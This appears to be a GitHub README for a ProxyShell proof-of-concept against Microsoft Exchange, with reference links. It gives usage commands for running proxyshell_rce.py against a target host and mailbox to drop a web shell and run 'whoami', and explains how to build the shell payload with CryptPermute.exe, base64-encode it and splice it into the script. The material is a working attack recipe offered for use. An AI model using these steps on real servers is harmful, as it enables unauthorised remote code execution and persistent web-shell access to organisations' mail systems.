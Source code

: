 # proxyshell-poc

## base usage
1. `python3 proxyshell_rce.py -u ip|domain -e user@domain.com`
2. `dropshell`
3. `whoami`

## generate CryptPermute content
1. execute `CryptPermute.exe shell.txt`, generate file `poc`.
2. base64 `poc` file.
3. Replace the contents of line 314 of the `proxyshell_rce.py` file:
```
<t:Content>base64 `poc` file string</t:Content>
```

## Reference link
https://github.com/dmaasland/proxyshell-poc

https://blog.riskivy.com/exchange-proxyshell%E6%BC%8F%E6%B4%9E%E5%A4%8D%E7%8E%B0%E5%8F%8A%E5%88%86%E6%9E%90/

https://mp.weixin.qq.com/s/aEnoBvibp-gkt3qtcOXqAw
